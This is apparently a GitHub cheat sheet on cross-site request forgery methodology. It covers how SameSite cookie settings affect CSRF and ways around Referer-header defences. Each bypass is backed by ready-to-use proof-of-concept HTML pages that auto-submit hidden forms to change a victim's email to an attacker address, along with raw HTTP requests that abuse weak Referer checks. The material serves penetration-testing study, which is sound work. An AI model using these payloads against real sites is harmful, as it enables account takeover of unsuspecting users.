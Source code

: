 ## CSRF Methodology
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
#### `SameSite=Strict` - CSRF Not Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=strict;
```

#### `SameSite=LAX` - CSRF Only Possible on GET Request

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=lax;
```

#### `SameSite=NONE` - CSRF Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=none;
```

**Step 2**<br/>
Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the Referer header based CSRF protection.

1) *Referer Header Removed*<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. We can strip the referer using the following META tag.

```html
<meta name="referrer" content="never">
```

*PoC*
```html
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2) *Referer Header Broken Regex*<br/>
Some websites will use regex to check if the website is contained in the referer. This regex could be broken. 

You can try sending the referer with the target website being a subdomain to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://target.shelled.io/change-email

email=hacked@gmail.com
```

You can try sending the referer with the target website being a query parameter to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://shelled.io/change-email?target.com

email=hacked@gmail.com
```

> Note: There is a default browser security mechanism that strips query parameters from the referer header. You can override this behavior by making sure that the response containing your exploit has the Referrer-Policy: unsafe-url header set.

*PoC*
```html
<html>
    <body>
        <meta name="referrer-policy" content="unsafe-url">
        <script>
            history.pushState("", "", "/?target.com")
        </script>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```









